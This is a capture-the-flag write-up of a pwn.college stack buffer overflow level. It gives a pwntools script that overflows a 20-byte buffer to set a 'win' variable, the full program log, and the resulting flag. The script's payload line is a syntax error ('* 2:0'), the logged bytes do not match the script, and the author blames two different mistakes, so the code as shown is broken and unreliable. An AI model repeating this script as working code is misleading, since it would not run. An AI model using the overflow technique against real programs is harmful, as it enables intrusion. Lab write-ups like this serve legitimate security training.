

# Level 2.0

Okay so this challenge had annoyed me for so long and then I later realised I had done literally everything correct except for one small basic mistake that costed me so much time and effort.

I opened the challenge and found this



Now what I had to do was send a random buffer input of 20 characters and then change the win variable into the required value `4074042b`.

`NOTE - The changed value has to be in little endian format, something I ignored when I was solving this challenge and realised later`

Now to automate this process and change the value at the win variable's address I wrote the following script using pwntools:

```py
from pwn import *

p = process('/challenge/babymem-level-2-0')

p.sendline(b"100")

payload = b"A" * 2:0 + b"\x2b\x04\x74\x40"
p.sendline(payload)

p.interactive()

```

```
suvan@Suvan:~$ ssh -i ./key hacker@dojo.pwn.college
Connected!
hacker@memory-errors~level2-0:~$ python3 chall.py
[+] Starting local process '/challenge/babymem-level-2-0': pid 108
[*] Switching to interactive mode
[*] Process '/challenge/babymem-level-2-0' stopped with exit code -6 (SIGABRT) (pid 108)
###
### Welcome to /challenge/babymem-level-2-0!
###

The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fff94a816a0 (rsp+0x0000) | 40 05 94 ea a9 77 00 00 | 0x000077a9ea940540 |
| 0x00007fff94a816a8 (rsp+0x0008) | 48 28 a8 94 ff 7f 00 00 | 0x00007fff94a82848 |
| 0x00007fff94a816b0 (rsp+0x0010) | 38 28 a8 94 ff 7f 00 00 | 0x00007fff94a82838 |
| 0x00007fff94a816b8 (rsp+0x0018) | 93 de 7d ea 01 00 00 00 | 0x00000001ea7dde93 |
| 0x00007fff94a816c0 (rsp+0x0020) | a0 a6 93 ea a9 77 00 00 | 0x000077a9ea93a6a0 |
| 0x00007fff94a816c8 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816d0 (rsp+0x0030) | e0 16 a8 94 ff 7f 00 00 | 0x00007fff94a816e0 |
| 0x00007fff94a816d8 (rsp+0x0038) | f4 16 a8 94 ff 7f 00 00 | 0x00007fff94a816f4 |
| 0x00007fff94a816e0 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816e8 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816f0 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816f8 (rsp+0x0058) | 00 19 6c 5d 8e 92 bd 2b | 0x2bbd928e5d6c1900 |
| 0x00007fff94a81700 (rsp+0x0060) | 40 27 a8 94 ff 7f 00 00 | 0x00007fff94a82740 |
| 0x00007fff94a81708 (rsp+0x0068) | fb 20 23 fe d3 5c 00 00 | 0x00005cd3fe2320fb |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7fff94a816a0, and our base pointer points to 0x7fff94a81700.
This means that we have (decimal) 14 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 112 bytes.
The input buffer begins at 0x7fff94a816e0, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 20 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is a "win" variable.
By default, the value of this variable is zero.
However, if you can set variable to 0x4074042b, the flag will be printed.
You can change this variable by overflowing the input buffer, but keep endianness in mind!
The "win" variable is stored at 0x7fff94a816f4, 20 bytes after the start of your input buffer.

Payload size: You have chosen to send 100 bytes of input!
This will allow you to write from 0x7fff94a816e0 (the start of the input buffer)
right up to (but not including) 0x7fff94a81744 (which is 80 bytes beyond the end of the buffer).
Send your payload (up to 100 bytes)!
You sent 25 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fff94a816a0 (rsp+0x0000) | 40 05 94 ea a9 77 00 00 | 0x000077a9ea940540 |
| 0x00007fff94a816a8 (rsp+0x0008) | 48 28 a8 94 ff 7f 00 00 | 0x00007fff94a82848 |
| 0x00007fff94a816b0 (rsp+0x0010) | 38 28 a8 94 ff 7f 00 00 | 0x00007fff94a82838 |
| 0x00007fff94a816b8 (rsp+0x0018) | 93 de 7d ea 01 00 00 00 | 0x00000001ea7dde93 |
| 0x00007fff94a816c0 (rsp+0x0020) | a0 a6 93 ea 19 00 00 00 | 0x00000019ea93a6a0 |
| 0x00007fff94a816c8 (rsp+0x0028) | 64 00 00 00 00 00 00 00 | 0x0000000000000064 |
| 0x00007fff94a816d0 (rsp+0x0030) | e0 16 a8 94 ff 7f 00 00 | 0x00007fff94a816e0 |
| 0x00007fff94a816d8 (rsp+0x0038) | f4 16 a8 94 ff 7f 00 00 | 0x00007fff94a816f4 |
| 0x00007fff94a816e0 (rsp+0x0040) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007fff94a816e8 (rsp+0x0048) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007fff94a816f0 (rsp+0x0050) | 61 61 61 61 2b 04 74 40 | 0x4074042b61616161 |
| 0x00007fff94a816f8 (rsp+0x0058) | 0a 19 6c 5d 8e 92 bd 2b | 0x2bbd928e5d6c190a |
| 0x00007fff94a81700 (rsp+0x0060) | 40 27 a8 94 ff 7f 00 00 | 0x00007fff94a82740 |
| 0x00007fff94a81708 (rsp+0x0068) | fb 20 23 fe d3 5c 00 00 | 0x00005cd3fe2320fb |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x7fff94a816e0
- the saved frame pointer (of main) is at 0x7fff94a81700
- the saved return address (previously to main) is at 0x7fff94a81708
- the saved return address is now pointing to 0x5cd3fe2320fb.
- the canary is stored at 0x7fff94a816f8.
- the canary value is now 0x2bbd928e5d6c190a.
- the address of the win variable is 0x7fff94a816f4.
- the value of the win variable is 0x4074042b.

You win! Here is your flag:
pwn.college{oA3CQ84ty6DW9lO7PJadcU1226H.ddTNzMDLzITO0czW}
```

Now the small mistake I made that caused me so much trouble was not using `p.interactive()` in my script. 


`The interactive() method in pwntools is used to interact with a process or remote connection in a live, terminal-like way. This is particularly helpful in exploitation scenarios where you want to manually interact with a program after sending an exploit payload or gaining shell access.`

## My learning

1. Using interactive() method in the end of your script is a good practise and one must follow it when sending pwntools scripts

## Flag

`pwn.college{oA3CQ84ty6DW9lO7PJadcU1226H.ddTNzMDLzITO0czW}`
